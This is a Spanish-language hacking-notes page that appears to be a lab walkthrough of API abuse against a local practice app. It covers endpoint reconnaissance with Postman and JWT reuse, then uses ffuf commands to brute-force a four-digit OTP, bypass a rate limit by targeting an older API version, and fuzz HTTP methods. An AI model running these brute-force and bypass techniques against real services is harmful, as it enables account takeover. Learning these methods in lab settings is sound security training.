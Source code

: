 ```yaml
---
layout: single
title: Abuso de APIs - Hacking Notes
excerpt: "Ejemplos de abuso de APIs (Spanish)"
date: 2025-03-16
classes: wide
header:
  teaser: /img2/obsidian.jpg
  teaser_home_page: true
  icon: /img2/images/Dashboard.jpeg
categories:
  - Hacking Notes
  - Web
tags:
  - API
---
```



# Índice
---------
1. [[#Identificación de API]]
2. [[#Analizamos la petición]]
3. [[#Reconocimiento con Postman]]
4. [[#Explotación de un endpoint con fuerza bruta]]
5. [[#Explotación de un endpoint cambiando el método]]
6. [[#SQLi y NoSQLi en APIs]]

------------

## Identificación de API
![](/img/Pasted%20image%2020241210100811.png)

![](Pasted image 20241210100811.png)
Seleccionamos la opción XHR para ver las peticiones más concretas 

---------
## Analizamos la petición 
1. Vemos el método y el endpoint
![](/img/Pasted%20image%2020241210101101.png)


2. Vemos el contenido que mandamos 
![](/img/Pasted%20image%2020241210101153.png)


3. Vemos la respuesta
![](/img/Pasted%20image%2020241210101334.png)

Nos está devolviendo un token de sesión, en este caso un [[Conceptos#JSON Web Token (JWT)]]

------------
## Reconocimiento con Postman

1. Creamos una nueva colección 
![](/img/Pasted%20image%2020241210105607.png)

2. Mandamos una petición por post al endpoint http://localhost:8888/identity/api/auth/login
![](/img/Pasted%20image%2020241210105759.png)

Vemos que hay errores ya que faltan parámentros 

3. Mandamos la petición con el contenido en formato JSON
![](/img/Pasted%20image%2020241210110010.png)

Podemos guardar esta petición para tener más organización

4. Creamos otra petición para el dashboard
![](/img/Pasted%20image%2020241210110233.png)

Vemos que da error ya que tenemos que arrastrar el JWT, debido a que este endpoint se utiliza una vez está iniciada la sesión 

5. Creamos una variable para usar el JWT
![](/img/Pasted%20image%2020241210110747.png)

![](/img/Pasted%20image%2020241210111518.png)


6. Creamos otra petición al endpoint http://localhost:8888/workshop/api/shop/products
![](/img/Pasted%20image%2020241210111829.png)


7. Creamos otra petición al endpoint http://localhost:8888/workshop/api/shop/orders
![](/img/Pasted%20image%2020241210112126.png)


8. Creamos otra petición al endpoint http://localhost:8888/workshop/api/shop/orders/reuturn_order?order_id=1
![](/img/Pasted%20image%2020241210114750.png)


9. Creamos otra petición al endpoint http://localhost:8888/identity/api/auth/v3/check-otp
![](/img/Pasted%20image%2020241210115647.png)

Ya que el código de verificación que nos mandan es únicamente de 4 dígitos, podemos emplear fuerza bruta

## Explotación de un endpoint con fuerza bruta

```bash
ffuf -u http://localhost:8888/identity/api/aut/v3/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '{"email":"s4vitar@hack4u.io","otp":"FUZZ","password":"NewPass123$!"}' -H "Content-Type: application/json" -p 1 -mc 200
```
Como esta versión de API v3 tiene una restricción de solicitudes, podemos intentar mandar la misma petición a la versión más antigua expuesta, en este caso la v2

```bash
ffuf -u http://localhost:8888/identity/api/aut/v2/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '{"email":"s4vitar@hack4u.io","otp":"FUZZ","password":"NewPass123$!"}' -H "Content-Type: application/json" -p 1 -mc 200
```

## Explotación de un endpoint cambiando el método

1. Empleamos fuzzing
```bash
ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/SecLists/Fuzzing/http-request-methods.txt -X FUZZ -p 1 -mc 401,200
```

2. Usamos el método options 
![](/img/Pasted%20image%2020241210121405.png)


3. Probamos el método POST y cambiamos los parámetros
![](/img/Pasted%20image%2020241210121756.png)


## SQLi y NoSQLi en APIs

1. NoSQLi en Mongodb
![](/img/Pasted%20image%2020241210122908.png)